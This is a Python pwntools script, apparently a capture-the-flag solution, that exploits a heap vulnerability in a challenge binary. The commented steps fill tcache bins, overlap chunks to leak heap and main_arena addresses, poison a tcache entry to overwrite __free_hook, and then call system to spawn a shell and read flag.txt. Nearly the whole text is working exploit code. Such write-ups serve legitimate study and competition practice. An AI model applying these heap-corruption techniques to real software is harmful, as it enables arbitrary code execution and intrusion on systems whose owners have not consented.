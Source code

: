 ```python

### fill tcache so that every bin has at least 2 elements
AllocVector(r, [0xDEADBEEF]*3, SizePInUse(4))
AllocVector(r, [0xDEADBEEF]*5, SizePInUse(6))
AllocVector(r, [0xDEADBEEF]*9, SizePInUse(10))
AllocVector(r, [0xDEADBEEF]*17, SizePInUse(18))
AllocVector(r, [0xDEADBEEF]*33, SizePInUse(34))
AllocVector(r, [0xDEADBEEF]*65, SizePInUse(66))
AllocVector(r, [0xDEADBEEF]*129, SizePInUse(130))

### add an additional large chunks. This will be placed in an unsorted bin and threrefore contain a pointer
### to main_arena+96

AllocVector(r, [0xF00DBABE]*260)

### select chunk from 0x90 tcachebin and enlargen it (to size 0x410)
### Given our setup this chunk is in the heap right before
### both 0x110 chunks. Therefore the larger size allows us to manipulate those.

AllocVector(r, [0xDEADC0DE]*9, SizePInUse(130))

### First we read the pointer from one chunk in the 0x110 tcachebin

heapLeak = AllocVector(r, [0xA] * 67 + [0x111])
log.info("Heap Leak: " + hex(heapLeak))

### Offset between the address read and the address of the 
### chunk containting &main_arena+96
### This can be calculated as the size of the chunks created between them i.e. 8*(34+2*66+2*130+258)

heapoffset = 8 * 684 

### Write the address to the chunk inside the  0x110 tcachebin.

AllocVector(r, [0x0] * 67 + [0x111] + [heapLeak + heapoffset - 16*8], SizePInUse(18))

### Clear first vector in 0x110 bin

AllocVector(r, [SizePInUse(130)] * 17, SizePInUse(130))

### Read &main_arena+96

arenaLeak = AllocVector(r, [SizePInUse(130)] * 15 + [0x9541] + [0x0], SizePInUse(34))

log.info("main_arena+96: " + hex(arenaLeak))

### Do the same thing again this time with chunks from 0x30 bin overflowing into chunks from 0x50 bin

AllocVector(r, [0xDEAD] * 3, SizePInUse(34))

### Address of __freehook for the exploit

AllocVector(r, [0xF00D] * 19 + [0x51] + [arenaLeak + 0x3290-8*4], SizePInUse(6))
AllocVector(r, [0xC0DE] * 5, SizePInUse(130))

### Leak the flag and spawn a shell using the leaked system address and our __freehook exploit

DropShell(r, arenaLeak - 0x175D90)
r.sendline(b"cat flag.txt")
flag = r.recvline(timeout=1).decode("ascii").strip()
```